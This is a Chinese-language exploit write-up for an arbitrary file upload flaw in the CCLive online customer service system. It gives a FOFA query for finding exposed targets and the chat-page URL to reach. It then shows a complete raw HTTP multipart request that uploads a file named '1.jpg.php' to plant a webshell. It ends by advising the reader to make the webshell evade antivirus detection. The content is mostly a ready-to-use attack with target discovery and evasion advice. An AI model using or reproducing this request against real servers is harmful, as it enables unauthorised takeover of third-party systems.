


## CCLive在线客服存在任意文件上传

## 漏洞描述

CCLive在线客服系统存在任意文件上传，可通过上传图片马进行getshell

## 漏洞影响

> CCLive在线客服系统

## FOFA

> title="CCLive在线客服系统"

## 漏洞复现

登录界面如下：


然后直接访问URL进入在线客服页面，然后从图片上传处进行抓包

```
/index/index/home?visiter_id=&visiter_name=&avatar=&business_id=1&groupid=0&special=1 
```




将png后缀修改为php,以这样的方式来绕过前端验证。

```
POST /admin/event/uploadimg HTTP/1.1
Host: url
Cookie: PHPSESSID=utrvj3a4vmncvmiaknccmt17nr
Content-Length: 721
Accept: application/json, text/javascript, */*; q=0.01
Origin: url
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.36 SE 2.X MetaSr 1.0
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryWvBQTUlpjNAdVfUt
Referer: url/index/index?code=v9zzfNPShXGiImqm%2BjTb52DPR%2B%2BcnjEIFN4Q%2BfnbLgkNxmOgGDfmOzNSL49%2B0SCZHhjvyJZc%2BNPFyOv33HNisSF5hkaZW0w4QFZkqCzXmWx9Bi0GXxAdBo0MVIuqTye2XlFYUQ
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8
Connection: close

------WebKitFormBoundaryWvBQTUlpjNAdVfUt
Content-Disposition: form-data; name="editormd-image-file"; filename="1.jpg.php"
Content-Type: image/png

text

------WebKitFormBoundaryWvBQTUlpjNAdVfUt
Content-Disposition: form-data; name="visiter_id"

YKs5EmtR
------WebKitFormBoundaryWvBQTUlpjNAdVfUt
Content-Disposition: form-data; name="business_id"

zzcc520
------WebKitFormBoundaryWvBQTUlpjNAdVfUt
Content-Disposition: form-data; name="avatar"

/assets/images/index/avatar-red2.png
------WebKitFormBoundaryWvBQTUlpjNAdVfUt
Content-Disposition: form-data; name="record"


------WebKitFormBoundaryWvBQTUlpjNAdVfUt
Content-Disposition: form-data; name="service_id"

13
------WebKitFormBoundaryWvBQTUlpjNAdVfUt--
```



从网页端来访问下看看是否可以访问到


最后，马子记得免杀。